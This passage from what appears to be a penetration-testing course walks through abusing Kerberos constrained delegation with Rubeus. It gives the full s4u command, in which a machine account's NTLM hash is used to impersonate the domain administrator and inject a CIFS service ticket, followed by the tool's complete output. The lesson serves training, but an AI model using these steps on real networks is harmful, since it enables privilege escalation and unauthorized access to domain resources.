 > Listing 39 - Invoking the purge function from Rubeus in memory

Now we can invoke Rubeus to request the TGS for the CIFS service on file01 as administrator, which is a domain admin. To do this in a single command, we'll call the _s4u_ function and supply a series of arguments. First, we'll specify the username (/user:) and the NTLM hash (/rc4:) of the web01 machine account, which is called "web01$".

Next, we'll provide the user to impersonate with /impersonateuser:, which in our case is "administrator". These options will allow Rubeus to obtain a TGT for web01$ followed by a _S4U2self_ request to get a forwardable TGS for _administrator_ to web01.

As the final arguments, we'll supply the SPN we want to target with /msdsspn:, which is the CIFS service on file01 and finally, we'll signal the generated TGS to be loaded into memory with /ptt:

```
PS C:\Windows\system32> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

...

[*] Action: S4U

[*] Using rc4_hmac hash: 12343649cc8ce713962859a2934b8cbb
[*] Building AS-REQ (w/ preauth) for: 'evil.com\web01$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEpjCCBKKgAwIBBaEDAgEWo...

[*] Action: S4U

[*] Using domain controller: dc02.evil.com (192.168.120.130)
[*] Building S4U2self request for: 'web01$@EVIL.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@EVIL.COM' to 'web01$@EVIL.COM'
[*] base64(ticket.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWo...

[*] Impersonating user 'administrator' to target SPN 'cifs/file01'
[*] Using domain controller: dc02.evil.com (192.168.120.130)
[*] Building S4U2proxy request for service: 'cifs/file01'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/file01':

      doIF1jCCBdKgAwIBBaEDAgEWo...
[+] Ticket successfully imported!
```

> Listing 40 - Using the S4U protocol transitions to request a TGS
